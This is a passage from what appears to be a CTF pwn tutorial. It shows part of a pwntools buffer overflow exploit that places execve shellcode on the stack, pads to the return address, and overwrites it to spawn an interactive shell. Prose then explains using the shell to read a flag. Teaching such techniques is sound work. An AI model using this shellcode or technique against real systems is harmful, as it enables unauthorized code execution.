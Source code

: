 ```
# This shellcode will pop a shell when we run it
payload += b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += b"0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)

target.interactive()
```

When we run it:

![running_exploit](pics/running_exploit.png)

Just like that, we popped a shell! A lot of ctf pwn challenges will have us pwn the challenge and spawn a shell, and when we run it against the actual running instance, we will use the shell to read the contents of a flag file.
